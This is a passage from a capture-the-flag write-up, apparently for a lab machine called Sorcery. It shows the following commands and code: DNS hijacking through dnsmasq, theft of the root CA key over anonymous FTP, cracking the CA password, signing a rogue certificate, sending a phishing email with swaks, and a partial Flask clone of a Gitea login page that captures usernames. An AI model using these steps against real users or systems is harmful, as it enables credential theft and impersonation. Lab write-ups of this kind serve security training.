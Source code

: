 ### Blog
In this section, we can find two posts about phishing attacks targeting **tom_summers**, describing how he felt during the tests and listing some rules to avoid falling for such attacks again. The post mentioned three key elements: a subdomain under the `sorcery.htb` domain, an HTTPS server, and a certificate signed by the internal CA.

Let’s start by addressing the first requirement: the subdomain.

-   During enumeration of the container after obtaining a reverse shell, we found that the `dnsmasq` process is running under the context of the **user** account and is configured to read entries from two files: `/dns/hosts` (owned by root) and `/dns/hosts-user` (which does not exist).
    
-   First, we need to create the file `/dns/hosts-user` and write a rule that points a subdomain to our machine.
    
-   Since we control the `dnsmasq` process, we can kill and restart it, effectively applying our new DNS rules.
    
-   Finally, we can verify that the subdomain resolves to our host using:  
    `dig <subdomain>.sorcery.htb @127.0.0.1`
    
Now that the first requirement is met, we can move on to the remaining two: setting up an HTTPS server with a certificate signed by the root CA, which is "securely" stored on the FTP server.

While inspecting the docker compose configuration of the application, we discovered that the FTP service has anonymous login enabled. This allows us to connect without credentials and retrieve a copy of the root CA's `.crt` and `.key` files.
```
ftp anonymous@172.19.0.11
> cd pub
> mget *
```
> To access the FTP server, you should use a proxy tool. I recommend learning **ligolo-ng**, as it's one of the easiest to set up.

When attempting to generate a certificate, you'll be prompted for the root CA password. This can be brute-forced using a simple shell script or the [pemcrack](https://github.com/robertdavidgraham/pemcrack) utility. Just clone the repository and compile it using **make**.

Once you’ve obtained the password, you can generate a signed certificate with the following commands:
```
❯ openssl genrsa -out server.key 2048
❯ openssl req -new -key server.key -out server.csr -subj "/C=US/ST=Something/L=Something/O=Something/CN=localhost"
❯ openssl x509 -req -in server.csr -CA RootCA.crt -CAkey RootCA.key -CAcreateserial -out server.crt -days 365 -sha256
```

Finally, you just need to send an email to the mail server targeting the user **tom_summers**:
```
swaks --to tom_summers@sorcery.htb --server 172.19.0.9:1025 --from me@sorcery.htb --header "Subject: review" --body "Hello world https://<subdomain>.sorcery.htb"
```
For the phishing page, you can either perform a MITM attack or simply serve a copy of a legitimate-looking website like Gitea. A quick and effective method is to right-click on the Gitea page, use "Save Page As…" to download it locally, and then serve it using flask:
```python
from flask import Flask, redirect, request, send_from_directory, url_for
app = Flask(__name__)
@app.route("/")
def serve_index():
    return send_from_directory(".", "index.html")
@app.route("/index_files/<path:filename>")
def serve_static_files(filename):
    return send_from_directory("index_files", filename)
@app.route("/user/login", methods=["POST"])
def login():
    user_name = request.form.get("user_name") or request.json.get("user_name")
```